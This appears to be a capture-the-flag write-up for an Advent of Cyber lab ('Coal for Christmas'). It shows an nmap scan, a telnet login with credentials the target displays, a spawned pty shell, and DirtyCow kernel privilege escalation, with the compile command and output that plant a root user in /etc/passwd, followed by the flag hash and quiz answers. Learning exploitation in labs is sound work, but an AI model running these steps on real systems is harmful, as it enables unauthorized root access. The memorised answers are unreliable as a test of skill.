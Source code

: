 # Day 13 Challenge
## Coal for Christmas

Now lets run nmap on the target. See what we can get.

Simple host discovery scan  

`nmap -Pn <IP>`

Gives us

`Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-13 13:54 EST
Nmap scan report for 10.10.9.124
Host is up (0.18s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
23/tcp  open  telnet
111/tcp open  rpcbind
Nmap done: 1 IP address (1 host up) scanned in 2.11 seconds`


We can see it has telnet activ. Lets try to connect to it.

using cmd `telent <IP> <Port telnet is running on>`
`
Trying 10.10.9.124...
Connected to 10.10.9.124.
Escape character is '^]'.
HI SANTA!!! 
`
`We knew you were coming and we wanted to make
it easy to drop off presents, so we created
an account for you to use.
`
`Username: santa
Password: clauschristmas
`
`We left you cookies and milk!
`
`christmas login:
`

And when we Login with the credentials we will be given a shell. 

Lets make the shell more interesting by spawing python ptty shell using 

`python -c 'import pty; pty.spawn("/bin/bash")'`

Gave me `santa@christmas:~$`  shell

Now lets have a look the version of linux and distro running using commands like 
`cat /etc/*release`
`uname -a`

Now open the cookies_and_milk.txt file. 

`cat cookies_and_milk.txt`

We can see that The Grinch has already ate the cookies and drank milk xD

But most of we can see somecode running... What is that C- code? It is dirtyCow which was an privilege escalation exploit which utilized race condtion that was found in kernel. 

Now lets get the exploit code on github.

lets make a file on the Hack machine nad paste the code in there.

`touch exploit.c`
`nano exploit.c`

Now paste the exploit we found.

It is time to compile the program.

using the command

`gcc -pthread exploit.c -o dirty -lcrypt`

Run the binary we just compiled 

`./dirty`

It will take sometime to complete....

After completion it makes a user with name firefart

And password that we gave


`santa@christmas:~$ ./dirty 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fioTf6LnjUz7A:0:0:pwned:/root:/bin/bash
mmap: 7fa5d03ba000
madvise 0
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'Ezpassword'.
DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'Ezpassword'.
DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd`

Now simply switch Users using command.

`su firefart`

Now lets navigate to root and have a look at the message_from_grinch.txt

Nice work, Santa!

Wow, this house sure was DIRTY!
I think they deserve coal for Christmas, don't you?
So let's leave some coal under the Christmas `tree`!

Let's work together on this. Leave this text file here,
and leave the christmas.sh script here too...
but, create a file named `coal` in this directory!
Then, inside this directory, pipe the output
of the `tree` command into the `md5sum` command.

The output of that command (the hash itself) is
the flag you can submit to complete this task
for the Advent of Cyber!

        - Yours,
                John Hammond
                er, sorry, I mean, the Grinch

          - THE GRINCH, SERIOUSLY

#### Final step
make a file name coal and pipe the text from tree command to md5sum.

`touch coal` > to make a file named coal

`tree | md5sum`

Gives the hash value of
 8b16f00dd3b51efadb02c1df7f8427cc

## Questions

1. What distribution of Linux and version number is this server running?
	- Ans: Ubuntu 12.04

2. Who got here first?
	- Ans: grinch

3. This cookies_and_milk.txt file looks like a modified rendition of a DirtyCow exploit, usually written in C. Find a copy of that original file online, and get it on the target box. You can do this with some simple file transfer methods like netcat, or spinning up a quick Python HTTP server... or you can simply copy-and-paste it into a text editor on the box!
	- Ans: No answer needed.

4. What is the verbatim syntax you can use to compile, taken from the real C source code comments?
	- Ans: gcc  -pthread dirty.c -o dirty -lcrypt

5. What "new" username was created, with the default operations of the real C source code?
	- Ans: firefart

6. su `<user_to_change_to>`
	- Ans: No answer needed.

7. What is the MD5 hash output?
	- Ans: 8b16f00dd3b51efadb02c1df7f8427cc


Thank You! This was nice one tho compared to the rest of the challenges

